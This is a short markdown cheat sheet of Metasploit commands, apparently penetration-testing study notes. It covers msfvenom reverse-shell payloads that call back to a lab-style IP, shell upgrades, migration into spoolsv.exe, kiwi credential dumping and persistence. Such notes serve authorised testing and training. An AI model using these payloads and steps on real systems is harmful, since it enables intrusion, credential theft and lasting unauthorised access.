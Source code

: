 # Metasploit - Armitage(GUI)
[Man Page](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
### Search syntax
```
search type:exploit platform:windows flash
```
### Shell upgraded to Metasploit
```
post/multi/manage/shell_to_meterpreter
```
### Generate Venom payload with PHP for reverse shell
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.1.81 LPORT=4444 -f raw -o payload.php
```
### Generate Venom with cmd/Reverse and export as RAW file
```
msfvenom -p cmd/unix/reverse_netcat localhost=10.11.1.81 lport=4444 R
```
### Mitigate process for escalation
```
migrate -N spoolsv.exe
```
### Kiwi
load kiwi -> cred_all (User/password)
getpriv -> check all priviledge access

### Persistent
After going through all the hard work of exploiting a system, it’s often a good idea to leave yourself an easier way back into the system for later use. - [More](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/)
